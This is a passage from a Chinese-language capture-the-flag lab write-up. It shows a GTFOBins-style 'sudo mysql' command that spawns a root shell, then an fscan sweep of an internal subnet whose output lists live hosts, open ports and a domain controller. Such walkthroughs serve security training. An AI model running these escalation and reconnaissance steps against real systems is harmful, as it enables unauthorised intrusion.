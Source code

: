 参考 GTFOBins

[https://gtfobins.github.io/gtfobins/mysql/](https://gtfobins.github.io/gtfobins/mysql/)

```shell
sudo mysql -e '\! /bin/sh'
```

/root 目录下拿到 flag01

![image-20230728205336569](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202307282053593.png)

## flag02

fscan 扫内网

```shell
www-data@ubuntu-web01:/tmp$ ./fscan -h 172.22.1.0/24

   ___                              _    
  / _ \     ___  ___ _ __ __ _  ___| | __ 
 / /_\/____/ __|/ __| '__/ _` |/ __| |/ /
/ /_\\_____\__ \ (__| | | (_| | (__|   <    
\____/     |___/\___|_|  \__,_|\___|_|\_\   
                     fscan version: 1.8.2
start infoscan
trying RunIcmp2
The current user permissions unable to send icmp packets
start ping
(icmp) Target 172.22.1.2      is alive
(icmp) Target 172.22.1.15     is alive
(icmp) Target 172.22.1.18     is alive
(icmp) Target 172.22.1.21     is alive
[*] Icmp alive hosts len is: 4
172.22.1.18:135 open
172.22.1.2:139 open
172.22.1.2:135 open
172.22.1.18:80 open
172.22.1.15:80 open
172.22.1.15:22 open
172.22.1.18:3306 open
172.22.1.21:445 open
172.22.1.18:445 open
172.22.1.2:445 open
172.22.1.21:139 open
172.22.1.18:139 open
172.22.1.2:88 open
172.22.1.21:135 open
[*] alive ports len is: 14
start vulscan
[*] NetInfo:
[*]172.22.1.18
   [->]XIAORANG-OA01
   [->]172.22.1.18
[*] NetInfo:
[*]172.22.1.21
   [->]XIAORANG-WIN7
   [->]172.22.1.21
[*] NetInfo:
[*]172.22.1.2
   [->]DC01
   [->]172.22.1.2
[*] WebTitle: http://172.22.1.15        code:200 len:5578   title:Bootstrap Material Admin
[*] 172.22.1.2  (Windows Server 2016 Datacenter 14393)
[*] NetBios: 172.22.1.2      [+]DC DC01.xiaorang.lab             Windows Server 2016 Datacenter 14393 
```